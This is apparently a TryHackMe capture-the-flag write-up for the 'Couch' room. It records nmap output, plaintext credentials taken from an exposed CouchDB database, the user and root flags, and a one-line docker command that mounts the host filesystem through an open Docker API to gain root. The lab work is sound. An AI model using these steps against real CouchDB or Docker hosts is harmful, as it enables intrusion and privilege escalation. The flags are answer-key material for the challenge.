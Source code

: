 # Room: Couch

## General Info
- **Room link:** [Couch](https://tryhackme.com/room/couch)

## Description

Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge.

## Provided Files / Links
- [x] Target Machine IP (10.10.51.179)


## Enumeration / Recon
- Ports Enumeration

Basic port enumeration:
`nmap -A -p- 10.10.183.192 -T5`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Android 5.1 (93%), Linux 3.13 (93%), Linux 3.2 - 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I then found a username:password in `http://10.10.183.192:5984/_utils/document.html?secret/a1320dd69fb4570d0a3d26df4e000be7`: **atena:t4qfzcc4qN##**.

I was able to login through ssh with these credentials.

I then found a user.txt file in /home/atena: **THM{1ns3cure_couchdb}**.

I viewed the .bash_history file and found this: `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine` => when running this command, you can have root privileges through docker and the host entire filesystem is mounted on /mnt.

After executing the command, I am root and I find the root flag in /mnt/root/root.txt: **THM{RCE_us1ng_Docker_API}**.


